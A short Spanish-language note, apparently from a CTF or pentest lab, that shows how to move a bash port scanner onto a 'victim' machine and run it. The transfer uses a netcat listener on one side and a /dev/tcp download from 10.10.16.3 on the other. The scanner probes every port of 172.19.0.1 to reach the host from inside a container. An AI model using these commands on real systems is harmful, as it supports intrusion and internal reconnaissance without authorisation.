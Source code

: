 
#portscannersh 

--------

Nuestra maquina: nc -nlvp 443 < portScanner.sh
Maquina victima: cat < /dev/tcp/10.10.16.3/443 > portScanner.sh
Y despues despues desde la maquina victima, darle permiso de ejecucion con chmod +x portScanner.sh

```shell
#!/bin/bash

function ctrl_c(){
    echo "[!] Saliendo.."
    exit 1
}

trap ctrl_c INT

for i in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$i" 2>/dev/null && echo "[!]Puerto abierto: $i" &

done
```
Esto nos ayudo para hacer un escaneo de puertos desde un contenedor hacia la maquina host